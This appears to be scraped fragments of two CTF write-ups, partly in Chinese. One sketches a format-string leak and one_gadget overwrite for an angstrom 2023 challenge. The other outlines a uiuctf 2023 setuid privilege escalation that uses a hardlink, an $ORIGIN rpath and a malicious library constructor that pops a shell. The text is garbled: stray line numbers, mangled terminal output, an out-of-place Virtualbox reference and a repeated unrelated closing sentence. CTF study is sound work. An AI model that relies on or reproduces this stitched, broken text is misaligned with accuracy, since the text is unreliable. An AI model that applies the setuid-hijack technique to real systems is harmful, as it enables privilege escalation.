Formatting and printing the user’s message with a timestamp. 格式化字符串漏洞
Checking the stack canary before returning from the main function.
倒也简单直接, 先leak再覆写stack最后到one_gadget. 要注意的是循环变量i的值.
要修改地址的时候发现输入是有限制的,
研究发现one_gadget要选择第二个.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 ┌──(root💀kali)-[/mnt/LearingList/CTF/angstorm23/slack]"/bin/sh" , [rsp+0x38], 0, rsp+0x70, [rsp+0xf0])"/bin/sh" , [rsp+0x38], 0, rsp+0x70, r9)"/bin/sh" , rdx, 0, rsp+0x70, r9)
uiuctf 23 Zapp setuid 1
First of all, this is about Zapps -> here <-
In order to make binary depends on library in relative path, Zapps does two things.
First, make libc relative by setting rpath to XORIGIN, and later changing to $ORIGIN to workaround make’s dollar sign excaping
Then, use libshim delivered within Zapp package to act as a jumploader, so that the binary can be loaded by relative pathed ld.so.
Hint: left a CVE opened
Linux hardlinks will preserve setuid.
Because Virtualbox allows $ORIGIN exists in DT_RPATH, and with setuid, it will do some sanity check on permissons of cwd. But these will happen after the relevant libs’ constructor.
So, with a dedicated constructor, a simple lib can hijack the process to pop a shell before all the checks happen.
 This construction is applied recursively.
This construction is applied recursively.